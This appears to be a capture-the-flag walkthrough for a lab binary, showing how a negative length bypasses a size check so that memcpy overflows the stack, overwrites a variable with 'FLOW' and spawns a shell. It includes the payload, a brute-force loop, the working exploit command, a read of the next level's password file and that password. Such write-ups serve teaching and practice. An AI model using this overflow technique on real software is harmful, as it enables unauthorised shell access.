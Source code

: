 # Bonus 01 Walkthrough

## Binary analysis

The binary takes two arguments: a number and a string. It converts the first argument to an integer (n), checks if n > 9, and then copies n*4 bytes from argv[2] to a stack buffer using memcpy. If n equals 0x574f4c46 (the magic value 'FLOW'), it spawns a shell.

### Key decompiled code
```c
int n = atoi(argv[1]);
if (n > 9) return 1;
    memcpy(&buffer, argv[2], n * 4);
if (n == 0x574f4c46)
    execl("/bin/sh", "sh", 0);
```

## Exploitation

- The check only prevents n > 9, but negative values are not handled. By passing a large negative value, we can copy more data than intended and overwrite the stack, including the variable n.
- We craft a payload that overwrites n with 0x574f4c46.

We calculate the offset between the dest of memcpy and the variable n, from the disassembly of main :

```
0x08048464 <+64>:	lea    0x14(%esp),%eax
0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```

We craft the payload with the offset and the magic value:

```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"[::-1]
```

We want to memcpy 44 bytes (40 + 4) to the buffer, so we need to pass a negative value because n * 4 = 44 means n = 11, which is greater than 9, so not possible. With a negative value, we can pass a value that is not greater than 9 but once casted when memcpy is called, it will be greater than 9. With a simple -1, it segfaults.

We brute-force a working negative value:
```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"
for i in range(-2147483648, 10):
    os.system(f"./bonus1/bonus1 {i} {payload} 2>/dev/null && echo OK for {i}")
```

Working exploit:
```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
```

## Commands used

```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
cat /home/user/bonus2/.pass
```

## Result

After running the exploit, we get a shell as bonus2 and can read the password:

```
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
 